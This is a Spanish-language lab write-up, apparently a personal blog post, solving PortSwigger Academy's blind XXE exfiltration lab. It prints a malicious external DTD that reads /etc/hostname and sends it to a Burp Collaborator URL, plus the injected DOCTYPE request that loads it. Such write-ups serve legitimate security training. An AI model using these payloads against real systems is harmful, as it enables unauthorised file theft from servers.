






+++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 5"
date = "2022-01-23"
description = "Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD"
tags = [
    "xxe",
    "blind xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE pero en este caso de tipo blind valiendose de la configuracion debil del analizador. Pero esta vez exfiltrando datos a travez de un DTD externo malicioso al que se conectara.

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.


Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```



## Explotacion

Sabiendo esto lo primero que haremos sera crear nuestra entidad DTD que estara alojada en un servidor web al cual luego se le hara referencia en la consulta enviada para poder inyectarla. Lo que hara esta entidad externa maliciosa es primero pedir el archivo `/etc/hostname` y luego enviar el contenido de esta solicitud hacia otro servidor en este caso en burpcollaborator la cual veremos un log el contenido del hostname.

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://0mnodc980sc5dnrg5sbsauaco3uuij.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```



Sabiendo esto haremos nuestra peticion pero referenciando a la entidad externa maliciosa alojada en el servidor

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-acb21f3b1ee66c24c17b96bb01c60046.web-security-academy.net/exploit.dtd"> %xxe;]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```



Ahora que ya hemos ejecutado vemos primero el log de apache por lo que se ha referenciado correctamente, solo queda esperar que ejecute todo lo que esta dentro de la entidad.



Y se ejecuta correctamente lo de la entidad y vemos claramente como hace la solicitud con el contenido de `/etc/hostname` en la peticion `GET`



Y con esto hemos resuelto el lab.



[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)